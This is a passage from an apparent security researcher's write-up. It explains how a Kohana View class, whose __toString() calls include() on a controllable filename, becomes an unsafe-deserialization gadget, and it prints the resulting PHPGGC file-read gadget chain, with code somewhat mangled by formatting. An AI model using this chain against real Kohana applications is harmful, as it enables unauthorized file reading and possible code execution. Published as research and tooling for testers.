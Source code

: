 ```
...  
try  
{  
    // Load the view within the current scope  
    include $kohana\_view\_filename;  
}  
...
```

`**include()**`**!**  It already smells like LFI and RCE. But do I have control over `**$kohana_view_filename**`**_?_**

Yes, I do! Because `$kohana_view_filename` is `$this->_file` in my context and `_file` is an attribute of _View_ class.

```
class Kohana_View {  
    // Array of global variables protected static   
    $\_global\_data = array();  
    ...  
    // View filename   
    protected $_file;    
    // Array of local variables   
    protected $_data = array();  
    ...  
}
```

At that moment I had all the elements for successful unsafe deserialization:

*   I controlled the input;
*   I had a magical method `**__toString()**`  of _View_ class with a useful function `**include()**`.
*   The class _View_ was loaded.

Bingo!

After some time I created gadget and chain for PHPGGC locally, which later [were committed and added](https://github.com/ambionics/phpggc/tree/master/gadgetchains/Kohana/FR/1) to main repository:

```
<?phpnamespace GadgetChain\\Kohana;class FR1 extends \\PHPGGC\\GadgetChain\\FileRead  
{  
    public static $version = ‘3.*’;  
    public static $vector = ‘__toString’;  
    public static $author = ‘byq’;  
    public static $information = ‘include()’; public function generate(array $parameters)  
    {  
        return new \\View($parameters\[‘remote_path’\]);  
    }  
}<?phpclass View   
{  
    protected $_file; public function \_\_construct($\_file) {  
        $this->\_file = $\_file;  
    }  
}
```
